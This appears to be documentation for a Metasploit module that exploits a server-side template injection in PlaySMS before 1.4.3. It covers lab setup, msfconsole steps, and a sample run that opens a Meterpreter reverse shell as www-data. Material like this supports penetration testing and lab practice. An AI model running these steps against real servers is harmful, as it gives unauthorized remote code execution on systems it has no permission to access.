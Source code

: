 ## Vulnerable Application

### Description

This module exploits a preauth Server-Side Template Injection vulnerability that leads to remote code execution in PlaySMS before version 1.4.3. This issue is caused by double processing a server-side template with a custom PHP template system called 'TPL' which is used in the PlaySMS template engine at `src/Playsms/Tpl.php:_compile()`. The vulnerability is triggered when an attacker supplied username with a malicious payload is submitted. This malicious payload is then stored in a TPL template which when rendered a second time, results in code execution.

The TPL (https://github.com/antonraharja/tpl) template language is vulnerable to PHP code injection.

### Setup

Available at [Source Forge](https://sourceforge.net/projects/playsms/files/playsms/Version%201.4.2/playsms-1.4.2.tar.gz/download).

 1. Download the application
 2. Extract : `tar -xvf playsms-1.4.2.tar.gz`
 3. Move in to the web directory : `mv playsms-1.4.2/web/* /var/www/html/`
 4. Make the config file: `cp /var/www/html/config-dist.php /var/www/html/config.php`
 5. Change the owner : `chown -R www-data:www-data /var/www/html/`
 6. Set DB creds in the config.php file and dump playsms-1.4.2/db/playsms.sql in to your playsms database
 7. Now visit : http://localhost/

## Verification Steps

 1. Install the application (Tested on HactheBox Frolic Machine)
 2. Start msfconsole
 3. Do: `use exploit/multi/http/playsms_template_injection`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi /playsms`
 7. Do: `check`

```
[*] 10.10.10.111:9999 - The target appears to be vulnerable.
```

 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `run`
 13. You should get a shell.

## Scenarios

### Playsms on Ubuntu Linux

```
msf5 exploit(multi/http/playsms_template_injection) > options

Module options (exploit/multi/http/playsms_template_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base playsms directory path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS Before 1.4.3


msf5 exploit(multi/http/playsms_template_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/http/playsms_template_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(multi/http/playsms_template_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[+] X-CSRF-Token for login : c62b21bdb395dca92c18446217e31d7f
[*] Trying to Send Payload in Username Field ......
[+] Payload successfully sent
[*] Cookies here : PHPSESSID=p0jmmf1kpqfhpbpcgpbcfbhpv3;
[*] Sending stage (38288 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:51800) at 2020-04-02 17:30:53 -0500

meterpreter > getuid
Server username: www-data (1000)
meterpreter > sysinfo
Computer    : ec31d13f3520
OS          : Linux ec31d13f3520 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
